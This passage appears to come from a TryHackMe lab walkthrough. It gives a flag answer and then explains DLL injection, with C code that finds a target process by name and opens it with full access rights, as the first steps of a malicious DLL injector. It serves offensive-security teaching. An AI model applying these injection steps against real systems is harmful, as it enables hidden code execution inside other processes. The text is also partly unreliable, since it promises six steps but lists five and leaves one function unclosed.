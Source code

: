 	**Answer : THM{w34p0n1z3d_53w1n6}**

## Task 5 - Abusing DLLs

At a high-level DLL injection can be broken up into six steps:

1. Locate a target process to inject.
2. Open the target process.
3. Allocate memory region for malicious DLL.
4. Write the malicious DLL to allocated memory.
5. Load and execute the malicious DLL.

We will break down a basic DLL injector to identify each of the steps and explain in more depth below.

At step one of DLL injection, we must locate a target thread. A thread can be located from a process using a trio of Windows API calls: `CreateToolhelp32Snapshot()`, `Process32First()`, and `Process32Next()`.

```
DWORD getProcessId(const char *processName) {
    HANDLE hSnapshot = CreateToolhelp32Snapshot( // Snapshot the specificed process
			TH32CS_SNAPPROCESS, // Include all processes residing on the system
			0 // Indicates the current process
		);
    if (hSnapshot) {
        PROCESSENTRY32 entry; // Adds a pointer to the PROCESSENTRY32 structure
        entry.dwSize = sizeof(PROCESSENTRY32); // Obtains the byte size of the structure
        if (Process32First( // Obtains the first process in the snapshot
					hSnapshot, // Handle of the snapshot
					&entry // Pointer to the PROCESSENTRY32 structure
				)) {
            do {
                if (!strcmp( // Compares two strings to determine if the process name matches
									entry.szExeFile, // Executable file name of the current process from PROCESSENTRY32
									processName // Supplied process name
								)) { 
                    return entry.th32ProcessID; // Process ID of matched process
                }
            } while (Process32Next( // Obtains the next process in the snapshot
							hSnapshot, // Handle of the snapshot
							&entry
						)); // Pointer to the PROCESSENTRY32 structure
        }
    }

DWORD processId = getProcessId(processName); // Stores the enumerated process ID
```

At step two, after the PID has been enumerated, we need to open the process. This can be accomplished from a variety of Windows API calls: `GetModuleHandle`, `GetProcAddress`, or `OpenProcess`.

```
HANDLE hProcess = OpenProcess(
	PROCESS_ALL_ACCESS, // Requests all possible access rights
	FALSE, // Child processes do not inheret parent process handle
	processId // Stored process ID
);
```
